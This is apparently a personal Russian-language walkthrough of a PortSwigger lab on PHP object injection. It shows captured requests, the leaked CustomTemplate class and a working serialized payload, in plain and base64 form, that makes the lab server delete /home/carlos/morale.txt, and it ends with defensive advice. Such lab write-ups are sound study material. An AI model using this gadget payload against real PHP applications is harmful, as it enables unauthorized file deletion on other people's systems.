


лаба https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php
#### PHP_object_injection

Методы десериализации обычно не проверяют, что именно они десериализуют. Это означает, что вы можете передать веб-сайту объекты любого сериализуемого класса, и они будут десериализованы

Если у злоумышленника есть доступ к исходному коду, он может подробно изучить все доступные классы. Чтобы создать простой эксплойт, нужно найти классы, содержащие магические методы десериализации, а затем проверить, не выполняют ли они опасные операции с контролируемыми данными

задание:
создайте и внедрите вредоносный сериализованный объект для удаления `morale.txt` файл из домашнего каталога Карлоса
подсказка ~)

------

запрос обновления страницы
```http
GET /my-account?id=wiener HTTP/2
Host: 0a3900940350828a80d37654000b003a.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJjd3E0NDAxeGFzOWJmYW9ibnozcWUydGtuZjlkenh1cyI7fQ%3d%3d
Cache-Control: max-age=0
...
..
.
```

расшифровал из b64

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"cwq4401xas9bfaobnz3qe2tknf9dzxus";}
```
здесь
юзер
имя
токен 32 символа

и все...

видимо - нужно добавить сюда какой-либо обьект...
знаю что в PHP функции простые serialize

не вижу других подсказок в коде страницы..

то есть нужно подсунуть сюда доп обьект какой-то, который  даст доступ к системе!

------
единственная зацепка - это вот этот запрос
который происходит автоматически при обновлении страницы и в нем тоже есть обьект

O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"cwq4401xas9bfaobnz3qe2tknf9dzxus";}




```http
GET /academyLabHeader HTTP/2
Host: 0a3900940350828a80d37654000b003a.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0a3900940350828a80d37654000b003a.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJjd3E0NDAxeGFzOWJmYW9ibnozcWUydGtuZjlkenh1cyI7fQ%3d%3d
Sec-Websocket-Key: scf49XLE9Lm+3tpBQOGXyg==


```

я хз... мыслей нет, так как опыта нет с такой шнягой..
и вот подарок богов!



нарыл такую строчку
```html

                   </div>
                    <!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
                </div>
```

здесь путь!!

вот ориг ссылка
`https://0a3900940350828a80d37654000b003a.web-security-academy.net/my-account?id=wiener`

меняю
`https://0a3900940350828a80d37654000b003a.web-security-academy.net/libs/CustomTemplate.php`

хз .. по запросу GET /libs/CustomTemplate.php HTTP/2 просто ответ 200 без ничего... может нужно параметры переделать

я как слепой котенок, не шарю тут ничего

использую подсказку лабы
`https://0a3900940350828a80d37654000b003a.web-security-academy.net/libs/CustomTemplate.php~)`
овтет 404

пробую 
https://0a3900940350828a80d37654000b003a.web-security-academy.net/libs/CustomTemplate.php~

опа нифига!!!


попал!!
здесь целый класс Template (шаблон) и 5 функций которые связаны с php как раз

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

вижу в классе штуки $this->template_file_path которые говорят про десериализацию

пасхалка
// Carlos thought this would be a good idea

file_exists

**file_exists** — это встроенная функция PHP, которая проверяет, существует ли файл или директория по указанному пути

**unlink** — это встроенная функция php, которая удаляет файл

а, короче тут есть функция __destruct которая тупо удаляет файлы. ну и баз проверка на существование файла, чтобы краша не было.

короч, нужно мне как - то понять, как  вот через эту шляпу 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"cwq4401xas9bfaobnz3qe2tknf9dzxus";}
вызвать выполнение этот функции для удаления файла
morale.txt
но нужно дать этой фукнции еще и путь..


-------

дипсик - помогай:


вот так оригинал
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"cwq4401xas9bfaobnz3qe2tknf9dzxus";}

тут используется класс юзер
а мне нужно использовать CustomTemplate из файла что я нашел!


вот так нужно сделать 

O:14:"CustomTemplate":1:{s:14:"CustomTemplatelock_file_path";s:23:"/home/carlos/morale.txt";}


Разбор

- `O:14:"CustomTemplate"` — объект класса `CustomTemplate` (14 символов в имени)
    
- `:1:` — одно свойство
    
- `s:14:"CustomTemplatelock_file_path"` — это **приватное** свойство. В PHP оно хранится как `\x00*название_класса*\x00имя_свойства`, но в сериализованной строке это выглядит как `"CustomTemplatelock_file_path"` (название класса слитно с именем свойства)
    
- `s:23:"/home/carlos/morale.txt"` — путь к файлу (23 символа)

---

В Linux домашняя директория пользователя всегда находится по пути `/home/имя_пользователя/`. Поэтому:

- Для пользователя `wiener` путь был бы `/home/wiener/morale.txt`
    
- Для пользователя `carlos` путь — `/home/carlos/morale.txt`


----------


пейлоад 

O:14:"CustomTemplate":1:{s:14:"CustomTemplatelock_file_path";s:23:"/home/carlos/morale.txt";}

овтет 

```html

<p class=is-warning>
                   
PHP Fatal error:  Uncaught Exception: unserialize() failed in /var/www/index.php:5
Stack trace:
#0 {main}
thrown in /var/www/index.php on line 5

</p>
```


ошибка lock_file_path это приват свойство из той функции что я нашел

В PHP приватные и защищенные свойства при сериализации имеют **специальные null-байты** в имени. Ты не можешь просто написать `lock_file_path`, нужно учитывать область видимости


вот так нужно 

O:14:"CustomTemplate":1:{s:33:"\x00CustomTemplate\x00lock_file_path";s:23:"/home/carlos/morale.txt";}

кодирую в base 64 через burp decoder

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MzM6Ilx4MDBDdXN0b21UZW1wbGF0ZVx4MDBsb2NrX2ZpbGVfcGF0aCI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=

ответ
ошибка

PHP Fatal error:  Uncaught Exception: unserialize() failed in /var/www/index.php:5
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 5


------

да ебушки воробушки!!

----

иду в решение!!

они не добавляют нул байты!!
>  В реальном PHP, если свойство объявлено как `private`, его имя в сериализованной строке ДОЛЖНО быть обрамлено null-байтами и именем класса

> в исходнике, который я нашел через тильду, четко написано `private $lock_file_path;`.  И пытался правильно собрать строку с null-байтами


исходник (  private $template_file_path;
    private $lock_file_path;   )


----
мое решение (не сработало)

O:14:"CustomTemplate":1:{s:33:"\x00CustomTemplate\x00lock_file_path";s:23:"/home/carlos/morale.txt";}

-----

вот офиц решение : почему-то все публичное здесь

O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

---------

кодирую в base 64 через burp decoder

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==

⭐️ лаба решена, хоть и тут варнинг висит

```
                   <p class=is-warning>

PHP Fatal error:  Uncaught Exception: Invalid user  in /var/www/index.php:7
Stack trace:
#0 {main}
thrown in /var/www/index.php on line 7

</p>
```


#  ИТОГО  как решил?

1  нашел в http куку с обьектом в base 64

2  потом в коде html нашел путь <!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->

3  в папке  libs был файл класс с методами

4  один из методов  - мог удалять обьекты

5  создаю обьект класса  CustomTemplate (класс был в найденном файле)

O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

| часть                            | значение     | пояснение                                                  |
| -------------------------------- | ------------ | ---------------------------------------------------------- |
| `O`                              | Object       | тип данных — объект                                        |
| `14`                             | 14           | длина имени класса (14 символов в "CustomTemplate")        |
| `"CustomTemplate"`               | имя класса   | название класса, объект которого создается                 |
| `1`                              | 1            | количество свойств у объекта                               |
| `{ ... }`                        | тело объекта | содержит пары "ключ-значение" свойств                      |
| `s:14:"lock_file_path"`          | свойство     | строковое (s) свойство длиной 14 с именем "lock_file_path" |
| `s:23:"/home/carlos/morale.txt"` | значение     | строковое значение длиной 23 — путь к файлу                |

сервер принял это
подставил в свою функцию
```php
$obj = unserialize('O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}');
```

и создал обьект
```php
object(CustomTemplate)#1 (1) {
  ["lock_file_path"]=> string(23) "/home/carlos/morale.txt"
}
```

выполнил функцию  CustomTemplate для  carlos - удалил файл morale.txt

-------


## как защититься от php object injection

никогда не десериализовать данные от пользователя, это главное правило, если нельзя избежать — использовать цифровую подпись hmac чтобы убедиться что объект не подменили

использовать белый список классов, разрешать десериализацию только строго определённых типов, например только User, остальное нахуй

применять безопасные альтернативы вместо serialize/unserialize, например json_encode/json_decode, они не создают объекты произвольных классов

в php 7+ использовать опцию `allowed_classes` в функции unserialize, можно запретить вообще любые классы или разрешить только конкретные

```php
unserialize($data, ['allowed_classes' => ['User']]);
```

не использовать магические методы `__destruct()`, `__wakeup()`, `__toString()` для опасных операций с данными, которые могут контролироваться пользователем

обновлять библиотеки и фреймворки, старые версии часто содержат гаджеты для построения цепочек атак

проводить code review, искать места где вызывается unserialize и проверять откуда берутся данные

